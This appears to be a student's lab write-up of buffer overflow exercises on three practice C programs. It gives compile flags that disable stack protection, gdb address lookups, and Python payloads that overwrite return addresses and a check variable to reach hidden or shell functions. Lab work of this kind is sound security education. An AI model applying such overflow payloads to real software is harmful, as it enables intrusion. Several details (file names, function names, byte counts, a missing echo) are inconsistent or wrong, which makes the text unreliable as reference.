

# 20110370, Phùng Huy Hoàng
# Lab 1: Buffer overflow attack
## Topic
*Conduct buffer overflow attack on bof1.c, bof2.c, bof3.c programs.*

### I.I this is bof1.c

### I.II Implementation steps

- Step 1: 
Compiled file bof1.c (- gcc -g bof1.c -o bof1.ou -fno-stack-protector -mpreferred-stack-boundary=2)
- Step 2: run gdb and execute the command info disassemble to know the location of the myfunc function ( 0x0804846b -> \x6b\x84\x04\x08)

- 

- Step 3: echo $(python -c"print('A'*204 + '\x6b\x84\x
04\x08')") | ./bof1.out
- As we have analyzed the stack frame of the program, to insert the address of the secretFunc function, we must insert 200 bytes of junk file and add 2 bytes of return and 2 bytes of ebp to be able to insert the address of the secretFunc function into returnAddress. 

- 

### II.I this is bof2.c

### II.II Implementation steps

- Step 1: 
Compiled file bof2.c (gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2)
- Step 2: $(python -c"print('A'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
- Ta cần 40 ký tự rác để tạo lỗi tràn bộ đệm sau đó thay thế check bằng 0xdeadbeef để hiển thị "Yeah! You win!"

- 

- Nếu check bị thay thế bởi giá trị khác thì "You are on the right way!" sẽ xuất hiện như ảnh dưới

- 

### III.I this is bof3.c

- 

### III.II Implementation steps

- Step 1: 
Compiled file bof3.c (gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2)
- Step 2: run gdb and execute the command info disassemble to know the location of the shell function ( 0x0804845b -> \x5b\x84\x04\x08)

- 

- Step 3: echo $(python -c"print('A'*128 + '\x5b\x84\x04\x08')") | ./bof3.out

- 

